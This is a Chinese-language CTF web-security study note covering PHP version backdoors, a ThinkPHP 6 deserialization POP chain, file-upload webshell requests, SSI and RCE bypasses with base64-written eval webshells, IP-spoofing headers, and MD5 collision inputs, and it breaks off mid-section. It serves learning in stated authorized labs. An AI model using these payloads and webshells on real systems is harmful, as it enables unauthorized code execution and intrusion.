








# Web 安全笔记（CTF）

> [!info] 关于本笔记
> - 原始文件：`C:\Users\14844\Desktop\Homework\CTF\web笔记2.md`（保持原样，未改动）。
> - 本文件由原笔记**整理排版 + 可视化增强**而来：统一标题层级与编号、修正代码块语言与换行、图片统一放在本库 `image/` 目录。
> - payload / 代码内容按原样保留；本轮只加「知识地图、章节速览、流程图、索引表、缺失图标记」，不改动任何 payload 本体。
> - 本轮新增：知识地图 + 决策树、32 张章节速览卡片、4 张 mermaid 流程图、PHP 函数索引表、SRC 查询平台表格。
> - 改动前已备份为同目录 `本科web笔记.bak-20260921.md`；内容仅用于个人学习与**已获授权**的测试环境。

## 🗺️ 知识地图

> [!tip] 怎么用这份笔记
> - 先看下面的 **决策树** 判断题目类型，再跳到对应章节；
> - 每章开头都有一张 `速览` 卡片，扫一眼就知道这章要不要细看；
> - 章标题前的 emoji 只是为了让左侧大纲更好认。



> [!abstract] ① 注入类
> - [[#💻 六、命令执行（RCE）]]
> - [[#🗄️ 十一、SQL 注入]]
> - [[#📜 十六、XXE 题目]]
> - [[#🛰️ 十七、SSRF 题目]]
> - [[#🧩 十八、服务端模板注入（SSTI）]]
> - [[#🕸️ 十九、XSS 专题]]
> - [[#📌 五、SSI 注入]]
> - [[#🧭 二十九、XPath 注入]]

> [!abstract] ② 文件 · 上传 · 包含
> - [[#⚙️ 七、代码执行]]
> - [[#📂 八、文件包含]]
> - [[#📤 九、文件上传]]
> - [[#🍐 二十五、PEAR 包含]]
> - [[#🛠️ 二十四、PHP 题目]]

> [!abstract] ③ 反序列化与原型链
> - [[#🔗 二十七、PHP 反序列化]]
> - [[#🥒 二十三、Pickle 反序列化]]
> - [[#🟩 二十、Node.js 题目]]

> [!abstract] ④ 语言 / 服务版本特性
> - [[#🐘 三、PHP 版本相关]]
> - [[#☕ 十、Java 命令执行与 OQL 查询]]
> - [[#🍵 十四、Java 题目]]
> - [[#🍶 十二、Flask 题目]]
> - [[#⚡ 二十八、FastAPI]]
> - [[#🌿 十三、Git 题目]]
> - [[#🎫 十五、JWT 题目]]
> - [[#🧷 二十一、其他小专题]]

> [!abstract] ⑤ 速查手册
> - [[#📖 二十六、PHP 函数速查]]
> - [[#🎯 四、Web 题目常见 Trick]]
> - [[#🌐 二、HTTP 请求基础]]
> - [[#🧰 一、通用技巧]]
> - [[#🐍 二十二、Python 用法]]

> [!abstract] ⑥ 思路与实战
> - [[#❓ 三十一、常见问题]]
> - [[#🧮 三十、综合例题]]
> - [[#🏴‍☠️ 三十二、SRC 挖洞之路]]

> [!info] 笔记统计
> - 32 个主题章节 · 112 个代码块（全部标了语言）· 29 张图片引用
> - 17 张原图在导出时已丢失（WPS 临时图），用灰色 `图片缺失` 卡片标出，正文未做删改
---

## 🧰 一、通用技巧

> [!summary] 速览
> - 零散速记：`controllers/api.js` 在题目里经常出现，可作为信息收集点
> - `openssl genrsa -out pri_key.pem 2048` 生成 RSA 私钥

controllers/api.js  常见

生成密钥

```bash
openssl genrsa -out pri_key.pem 2048

```

---

## 🌐 二、HTTP 请求基础

> [!summary] 速览
> - [MDN HTTP Methods](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods) —— 方法速查
> - `docker-compose up -d` 起环境、`docker ps` 看容器；[requestrepo](https://requestrepo.com/) 自建请求回显 / DNS 打点
> - `gcc hook.c -o hook.so -fPIC -shared -ldl -D_GNU_SOURCE` 编译 so（配合劫持 / 提权）

https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods

docker运行部署

```bash
[root@base ~]#docker-compose up -d
docker ps

```

[Dashboard - requestrepo.com](https://requestrepo.com/)

so文件编译

```bash
gcc hook.c -o hook.so -fPIC -shared -ldl -D_GNU_SOURCE

```

https://drunkmars.top/2021/04/14/thinkphp%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E5%92%8C%E6%80%BB%E7%BB%93/

---

## 🐘 三、PHP 版本相关

> [!summary] 速览
> - **PHP 8.1.0-dev 后门**：请求头 `User-Agentt: zerodiumsystem("id");`
> - **PHP 7.0 临时文件机制**：fastcoll（fastdoll）生成碰撞 PDF，抢临时文件
> - **ThinkPHP 6**：POP 链 poc（`think\model\concern`）+ 上传请求包
> - `uncompyle6 ../pyc/utils.cpython-38.pyc > ../pyc/utils.py` 反编译 pyc
> - 7.4 环境 + FFL 绕过 `disable_functions`

### 8.1.0-dev 后门复现

User-Agentt: zerodiumsystem("id");

### PHP 7.0 临时文件机制

fastdoll

fastcoll_v1.0.0.5.exe -p shell.pdf -o C:\Users\admin\Desktop\fastdoll\shell1.pdf C:\Users\admin\Desktop\fastdoll\shell2.pdf

PHP版本

7.4

ffl绕过disable

### ThinkPHP 6

poc

```php
<?php /** * Created by PhpStorm. * User: wh1t3P1g */
namespace think\model\concern {
    trait Conversion{
        protected $visible;
    }
    trait RelationShip{
        private $relation;
    }
    trait Attribute{
        private $withAttr;
        private $data;
        protected $type;
    }
    trait ModelEvent{
        protected $withEvent;
    }
}
namespace think {
    abstract class Model{
        use model\concern\RelationShip;
        use model\concern\Conversion;
        use model\concern\Attribute;
        use model\concern\ModelEvent;
        private $lazySave;
        private $exists;
        private $force;
        protected $connection;
        protected $suffix;
        function __construct($obj) {
            if($obj == null){
                $this->data = array("wh1t3p1g"=>"whoami");
                $this->relation = array("wh1t3p1g"=>[]);
                $this->visible= array("wh1t3p1g"=>[]);
                $this->withAttr = array("wh1t3p1g"=>"system");
            } else {
                $this->lazySave = true;
                $this->withEvent = false;
                $this->exists = true;
                $this->force = true;
                $this->data = array("wh1t3p1g"=>[]);
                $this->connection = "mysql";
                $this->suffix = $obj;
            }
        }
    }
}
namespace think\model {
    class Pivot extends \think\Model{
        function __construct($obj) {
            parent::__construct($obj);
        }
    }
}
namespace {
    $pivot1 = new \think\model\Pivot(null);
    $pivot2 = new \think\model\Pivot($pivot1);
    echo base64_encode(serialize($pivot2));
```

```http
POST /user/upload/upload HTTP/1.1
Host: 8180dbac-b11b-41d5-a2cd-4a034a2797e0.vnctf2024.manqiu.top
Cookie: PHPSESSID=7901b5229557c94bad46e16af23a3728
Content-Length: 894
Sec-Ch-Ua: " Not;A Brand";v="99", "Google Chrome";v="97", "Chromium";v="97"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.99 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryrhx2kYAMYDqoTThz
Accept: */*
Origin: https://info.ziwugu.vip/
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://target.com/user/upload/index?name=icon&type=image&limit=1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,ja-CN;q=0.8,ja;q=0.7,en;q=0.6
Connection: close

------WebKitFormBoundaryrhx2kYAMYDqoTThz
Content-Disposition: form-data; name="id"

WU_FILE_0
------WebKitFormBoundaryrhx2kYAMYDqoTThz
Content-Disposition: form-data; name="name"

test.jpg
------WebKitFormBoundaryrhx2kYAMYDqoTThz
Content-Disposition: form-data; name="type"

image/jpeg
------WebKitFormBoundaryrhx2kYAMYDqoTThz
Content-Disposition: form-data; name="lastModifiedDate"

Wed Jul 21 2021 18:15:25 GMT+0800 (中国标准时间)
------WebKitFormBoundaryrhx2kYAMYDqoTThz
Content-Disposition: form-data; name="size"

164264
------WebKitFormBoundaryrhx2kYAMYDqoTThz
Content-Disposition: form-data; name="file"; filename="test.php"
Content-Type: image/jpeg

JFIF
<?php phpinfo();?>

------WebKitFormBoundaryrhx2kYAMYDqoTThz--

```

### Python 反编译

`uncompyle6 ../pyc/utils.cpython-38.pyc > ../pyc/utils.py`

 python终端

```python
import os 
tmp=os.popen('ls /').read()
print(tmp)

```

---

## 🎯 四、Web 题目常见 Trick

> [!summary] 速览
> - 分隔 / 换行绕过：`&`、`|`、`||`、`%0a`、`%0d`
> - 看到「读取」想伪协议，看到「下载」想跨目录任意文件读取
> - 三个 URL 解码后 `md5()` 相同（碰撞）；`4476e123` 在 `intval` 中截断为 `4476`，绕过弱类型比较
> - 编码绕过：八进制 `010574`、十六进制 `0x`
> - 读源码：`php://filter/read=string.rot13/newstar/resource=flag.php`；vim 交换文件 `.index.php.swp / .swo / .swn`
> - 伪造 IP 头拼本地登录：`X-Forwarded-For`、`Client-IP`、`X-Real-IP`、`CF-Connecting-IP` 等一长串
> - MD5 / SHA1 专题：数组绕过、`0e` 科学计数法、`ffifdyop`、`a == md5($a)`、`0e215962017`

常见trick：

1.绕过；&、|、||、%0a、%0d

 2.读取就要想到伪协议

3.文件下载想到任意文件跨目录读取

下面三个url解码后md5()后相同

<details>
  <summary>点击展开代码块</summary>

```text
$s1 = "%af%13%76%70%82%a0%a6%58%cb%3e%23%38%c4%c6%db%8b%60%2c%bb%90%68%a0%2d%e9%47%aa%78%49%6e%0a%c0%c0%31%d3%fb%cb%82%25%92%0d%cf%61%67%64%e8%cd%7d%47%ba%0e%5d%1b%9c%1c%5c%cd%07%2d%f7%a8%2d%1d%bc%5e%2c%06%46%3a%0f%2d%4b%e9%20%1d%29%66%a4%e1%8b%7d%0c%f5%ef%97%b6%ee%48%dd%0e%09%aa%e5%4d%6a%5d%6d%75%77%72%cf%47%16%a2%06%72%71%c9%a1%8f%00%f6%9d%ee%54%27%71%be%c8%c3%8f%93%e3%52%73%73%53%a0%5f%69%ef%c3%3b%ea%ee%70%71%ae%2a%21%c8%44%d7%22%87%9f%be%79%6d%c4%61%a4%08%57%02%82%2a%ef%36%95%da%ee%13%bc%fb%7e%a3%59%45%ef%25%67%3c%e0%27%69%2b%95%77%b8%cd%dc%4f%de%73%24%e8%ab%66%74%d2%8c%68%06%80%0c%dd%74%ae%31%05%d1%15%7d%c4%5e%bc%0b%0f%21%23%a4%96%7c%17%12%d1%2b%b3%10%b7%37%60%68%d7%cb%35%5a%54%97%08%0d%54%78%49%d0%93%c3%b3%fd%1f%0b%35%11%9d%96%1d%ba%64%e0%86%ad%ef%52%98%2d%84%12%77%bb%ab%e8%64%da%a3%65%55%5d%d5%76%55%57%46%6c%89%c9%df%b2%3c%85%97%1e%f6%38%66%c9%17%22%e7%ea%c9%f5%d2%e0%14%d8%35%4f%0a%5c%34%d3%73%a5%98%f7%66%72%aa%43%e3%bd%a2%cd%62%fd%69%1d%34%30%57%52%ab%41%b1%91%65%f2%30%7f%cf%c6%a1%8c%fb%dc%c4%8f%61%a5%93%40%1a%13%d1%09%c5%e0%f7%87%5f%48%e7%d7%b3%62%04%a7%c4%cb%fd%f4%ff%cf%3b%74%28%1c%96%8e%09%73%3a%9b%a6%2f%ed%b7%99%d5%b9%05%39%95%ab"

$s2 = "%af%13%76%70%82%a0%a6%58%cb%3e%23%38%c4%c6%db%8b%60%2c%bb%90%68%a0%2d%e9%47%aa%78%49%6e%0a%c0%c0%31%d3%fb%cb%82%25%92%0d%cf%61%67%64%e8%cd%7d%47%ba%0e%5d%1b%9c%1c%5c%cd%07%2d%f7%a8%2d%1d%bc%5e%2c%06%46%3a%0f%2d%4b%e9%20%1d%29%66%a4%e1%8b%7d%0c%f5%ef%97%b6%ee%48%dd%0e%09%aa%e5%4d%6a%5d%6d%75%77%72%cf%47%16%a2%06%72%71%c9%a1%8f%00%f6%9d%ee%54%27%71%be%c8%c3%8f%93%e3%52%73%73%53%a0%5f%69%ef%c3%3b%ea%ee%70%71%ae%2a%21%c8%44%d7%22%87%9f%be%79%6d%c4%61%a4%08%57%02%82%2a%ef%36%95%da%ee%13%bc%fb%7e%a3%59%45%ef%25%67%3c%e0%27%69%2b%95%77%b8%cd%dc%4f%de%73%24%e8%ab%66%74%d2%8c%68%06%80%0c%dd%74%ae%31%05%d1%15%7d%c4%5e%bc%0b%0f%21%23%a4%96%7c%17%12%d1%2b%b3%10%b7%37%60%68%d7%cb%35%5a%54%97%08%0d%54%78%49%d0%93%c3%b3%fd%1f%0b%35%11%9d%96%1d%ba%64%e0%86%ad%ef%52%98%2d%84%12%77%bb%ab%e8%64%da%a3%65%55%5d%d5%76%55%57%46%6c%89%c9%5f%b2%3c%85%97%1e%f6%38%66%c9%17%22%e7%ea%c9%f5%d2%e0%14%d8%35%4f%0a%5c%34%d3%f3%a5%98%f7%66%72%aa%43%e3%bd%a2%cd%62%fd%e9%1d%34%30%57%52%ab%41%b1%91%65%f2%30%7f%cf%c6%a1%8c%fb%dc%c4%8f%61%a5%13%40%1a%13%d1%09%c5%e0%f7%87%5f%48%e7%d7%b3%62%04%a7%c4%cb%fd%f4%ff%cf%3b%74%a8%1b%96%8e%09%73%3a%9b%a6%2f%ed%b7%99%d5%39%05%39%95%ab"

$s3 = "%af%13%76%70%82%a0%a6%58%cb%3e%23%38%c4%c6%db%8b%60%2c%bb%90%68%a0%2d%e9%47%aa%78%49%6e%0a%c0%c0%31%d3%fb%cb%82%25%92%0d%cf%61%67%64%e8%cd%7d%47%ba%0e%5d%1b%9c%1c%5c%cd%07%2d%f7%a8%2d%1d%bc%5e%2c%06%46%3a%0f%2d%4b%e9%20%1d%29%66%a4%e1%8b%7d%0c%f5%ef%97%b6%ee%48%dd%0e%09%aa%e5%4d%6a%5d%6d%75%77%72%cf%47%16%a2%06%72%71%c9%a1%8f%00%f6%9d%ee%54%27%71%be%c8%c3%8f%93%e3%52%73%73%53%a0%5f%69%ef%c3%3b%ea%ee%70%71%ae%2a%21%c8%44%d7%22%87%9f%be%79%ed%c4%61%a4%08%57%02%82%2a%ef%36%95%da%ee%13%bc%fb%7e%a3%59%45%ef%25%67%3c%e0%a7%69%2b%95%77%b8%cd%dc%4f%de%73%24%e8%ab%e6%74%d2%8c%68%06%80%0c%dd%74%ae%31%05%d1%15%7d%c4%5e%bc%0b%0f%21%23%a4%16%7c%17%12%d1%2b%b3%10%b7%37%60%68%d7%cb%35%5a%54%97%08%0d%54%78%49%d0%93%c3%33%fd%1f%0b%35%11%9d%96%1d%ba%64%e0%86%ad%6f%52%98%2d%84%12%77%bb%ab%e8%64%da%a3%65%55%5d%d5%76%55%57%46%6c%89%c9%df%b2%3c%85%97%1e%f6%38%66%c9%17%22%e7%ea%c9%f5%d2%e0%14%d8%35%4f%0a%5c%34%d3%73%a5%98%f7%66%72%aa%43%e3%bd%a2%cd%62%fd%69%1d%34%30%57%52%ab%41%b1%91%65%f2%30%7f%cf%c6%a1%8c%fb%dc%c4%8f%61%a5%93%40%1a%13%d1%09%c5%e0%f7%87%5f%48%e7%d7%b3%62%04%a7%c4%cb%fd%f4%ff%cf%3b%74%28%1c%96%8e%09%73%3a%9b%a6%2f%ed%b7%99%d5%b9%05%39%95%ab"

```
</details>
绕过八进制 010574

0代表是八进制,+0和 0都可以

十六进制0x

在弱类型比较的时候，4476e123是科学计数法4476*10^123，而在intval函数中，遇到字母就停止读取，因此是4476，成功绕过，非常巧妙。

php://filter/read=string.rot13/newstar/resource=flag.php

Php协议读取

第一次vim会创建缓存的[交换文件](https://so.csdn.net/so/search?q=交换文件&spm=1001.2101.3001.7020)名为 .index.php.swp，

再次意外退出后，将会产生名为 .index.php.swo 的交换文件，

第三次产生的交换文件则为 .index.php.swn。

XFF可控，

Flask可能存在Jinjia2模版注入漏洞

PHP可能存在Twig模版注入漏洞

本地登陆

X-Forwarded: 127.0.0.1

Forwarded-For: 127.0.0.1

Forwarded: 127.0.0.1

X-Requested-With: 127.0.0.1

X-Forwarded-Proto: 127.0.0.1

X-Forwarded-Host: 127.0.0.1

X-remote-IP: 127.0.0.1

X-remote-addr: 127.0.0.1

True-Client-IP: 127.0.0.1

X-Client-IP: 127.0.0.1

Client-IP: 127.0.0.1

X-Real-IP: 127.0.0.1

Ali-CDN-Real-IP: 127.0.0.1

Cdn-Src-Ip: 127.0.0.1

Cdn-Real-Ip: 127.0.0.1

CF-Connecting-IP: 127.0.0.1

X-Cluster-Client-IP: 127.0.0.1

WL-Proxy-Client-IP: 127.0.0.1

Proxy-Client-IP: 127.0.0.1

Fastly-Client-Ip: 127.0.0.1

True-Client-Ip: 127.0.0.1

X-Originating-IP: 127.0.0.1

X-Host: 127.0.0.1

X-Custom-IP-Authorization: 127.0.0.1

从哪访问：Referer

服务ip：via

邮箱：FROM

$this->code==0x36d (弱比较换成十进制数也可）

system不能用可以换shell_exec

if (md5($_POST['a']) === md5($_POST['b']))数组绕过

ls /|tee xxx 也可以写文件，再用nl打开

ctfshow::getflag 直接调用方法

ctfshow[0]=ctfshow&ctfshow[1]=getFlag

冒号过滤可以尝试数组绕过，前面属性后面方法名

call_user_func(array($classname, 'say_hello'));

?1=session_start

?1=error_reporting

?1=json_last_error

能返回一正确（true）值绕过==弱比较

?1=spl_autoload_extensions生成 .inc,.php 文件(shell文件)

通过替换实现内存占用放大，超过php最大默认内存256M即可造成变量定义失败

Str_repalce

已经拿过flag，题目正常,也就是说...可以看日志

配置文件  /etc/nginx/nginx.conf

访问日志  /var/log/nginx/access.log

file:///etc/nginx/conf.d/default.conf

?page=/var/log/nginx/access.log ?page=/var/log/nginx/error.log ?page=/etc/nginx/nginx.conf

依赖进程，思路可以是读 /proc/self/maps

/proc/self/fd/ 文件被删除

Md5专题

 if ($sha1_1 != $sha1_2 && sha1($sha1_1) === sha1($sha1_2))

数组绕过

if ($a != $b && md5($a) == md5($b))

a=s1885207154a，b=s1836677006a

if ($a != $b && md5($a) == md5(md5($b))

a=s1885207154a，b=V5VDSHva7fjyJoJ33IQl

if (isset($md5) && $md5 == md5($md5))

md5=0e215962017

 if( ($this->a !== $this->b) && (md5($this->a) === md5($this->b)) && (sha1($this->a)=== sha1($this->b)) )

A=1 b=’1’;

if((string)$_GET['a'] !== (string)$_GET['b'] && md5($_GET['a'])===md5($_GET['b'])){

s1=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2

&s2=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2

$md5==md5(md5($md5))

0e1138100474

a==md5($a)

0e215962017

md5('240610708') == md5('QNKCDZO')

加密后带单引号’

ffifdyop

e58

4611686052576742364

加1

1e<2023  1e7+1>2023

%0a绕过#注释符号

---

## 📌 五、SSI 注入

> [!summary] 速览
> - 特征：文件名 / 页面为 `*.shtml`
> - 探测 payload：`<!--#exec cmd="ls -al"-->`

特征：shtml文件

`<!--#exec cmd="ls -al"-->`

---

## 💻 六、命令执行（RCE）

> [!summary] 速览
> - **长度限制**：`$0 fl* >&2`、`nl /*>1`、`echo PD9waHAg...|base64 -d>1.php` 分步写入；4 / 5 / 7 字符各有绕过姿势
> - **某字母被 ban**：反斜线转义 `cat fla\g.php`、单引号分隔 `cat fl''ag.php`
> - **无字母数字**：`hex2bin('73797374656d')(...)`、取反 `(~%8C%86%8C%8B%9A%92)(~%93%8C)`、`$_=[];$_=@"$_";` 自增构造
> - **无参数读取**：`system(current(getallheaders()))`、`get_defined_vars()`、`session_id()`
> - **ping 题目**：冒号被过滤用 `%0a` 代替；有回显读文件、无回显外带
> - **提权**：`find / -perm -u=s -type f 2>/dev/null` 找 SUID、nginx CVE-2016-1247、pkexec 版本比对
> - 常见危险调用点：`eval`、`assert`、`preg_replace`、`create_function`、`array_map`、`call_user_func`、`usort`



[](https://speakerdeck.com/player/f81159300925466c88335f3cf740beb6)

[4,5,7绕过](https://blog.csdn.net/q20010619/article/details/109206728?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522170564099816800182785255%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fall.%2522%257D&request_id=170564099816800182785255&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~first_rank_ecpm_v1~rank_v31_ecpm-2-109206728-null-null.142^v99^pc_search_result_base7&utm_term=rce4%E9%95%BF%E5%BA%A6%E5%AD%97%E7%AC%A6%E7%BB%95%E8%BF%87&spm=1018.2226.3001.4187)

[4](https://xiaolong22333.top/archives/201/)

### 字符长度限制

$0 fl* >&2

#### 7 字符长度

			**trick：nl /*>1**

	拆解绕过

		`echo PD9waHAgZXZhbCgkX0dFVFsxXSk7|base64 -d>1.php`

		<?php eval（$_GET[1]);

```python

import requests
import time

url = "http://66647db2-18aa-4d81-aa34-52f50c5789d1.challenge.ctf.show/api/tools.php"
with open("payload.txt", "r") as f:
    for i in f:
        data = {"cmd": i.strip()}
        r = requests.post(url=url, data=data)
        time.sleep(1)#时间控制
        print(r.text)

test = requests.get("http://66647db2-18aa-4d81-aa34-52f50c5789d1.challenge.ctf.show/api/1.php")
if test.status_code == requests.codes.ok:
    print("you've got it!")

```

4字符绕过

```text
cat /flag   base64:PD9waHAgcGhwaW5mbygpOw==
构造
